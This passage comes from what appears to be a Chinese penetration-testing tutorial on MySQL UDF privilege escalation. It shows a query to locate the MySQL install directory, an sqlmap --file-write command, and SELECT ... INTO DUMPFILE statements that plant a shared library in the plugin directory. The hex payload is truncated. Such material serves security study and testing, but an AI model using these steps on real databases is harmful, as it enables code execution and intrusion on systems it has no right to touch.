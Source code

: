 如果不存在的话

```
select @@basedir; # 寻找MySQL的安装目录
```

![image-20220729171944681](img/image-20220729171944681.png)

然后通过webshell手动去创建

## 写入动态链接库

**方法一：**

当SQL 注入且是高权限，plugin 目录可写且需要 secure_file_priv 无限制，MySQL 插件目录可以被 MySQL 用户写入，这个时候就可以直接使用 sqlmap 来上传动态链接库，又因为 GET 有**字节长度限制**，所以往往 POST 注入才可以执行这种攻击

```
sqlmap -u "http://localhost:30008/" --data="id=1" --file-write="/Users/sec/Desktop/lib_mysqludf_sys_64.so" --file-dest="/usr/lib/mysql/plugin/udf.so"
```

**方法二：**

当没有注入点时，我们可以操作原生 SQL 语句，这种情况下当 secure_file_priv 无限制的时候，我们也是可以手工写文件到 plugin 目录下的：

```sql
# 直接 SELECT 查询十六进制写入
SELECT 0x7f454c4602... INTO DUMPFILE '/usr/lib/mysql/plugin/udf.so';

# 解码十六进制再写入多此一举
SELECT unhex('7f454c4602...') INTO DUMPFILE '/usr/lib/mysql/plugin/udf.so';
```
